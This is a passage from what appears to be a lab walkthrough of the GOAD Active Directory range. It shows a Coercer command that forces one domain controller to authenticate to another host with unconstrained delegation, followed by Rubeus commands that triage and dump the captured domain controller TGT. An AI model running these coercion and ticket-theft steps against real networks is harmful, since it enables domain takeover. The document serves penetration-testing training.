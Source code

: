 - And now force a coerce of the DC kingslanding to the DC winterfell.

```bash
python3 coercer.py -u arya.stark -d north.sevenkingdoms.local -p Needle -t kingslanding.sevenkingdoms.local -l winterfell
```

- We look on the triage again :

```powershell
[Rubeus.Program]::MainString("triage")
```

- And now the tgt of kingslanding is present

![deleg_unconcstrained_after_coerce.png](/assets/blog/GOAD/deleg_unconcstrained_after_coerce.png)


- To extract it (relaunch coercer and 1 sec later launch the following dump command): (i don't know why but the rubeus monitor mode doesn't want to run in execute assembly)

```
[Rubeus.Program]::MainString("dump /user:kingslanding$ /service:krbtgt /nowrap");
```
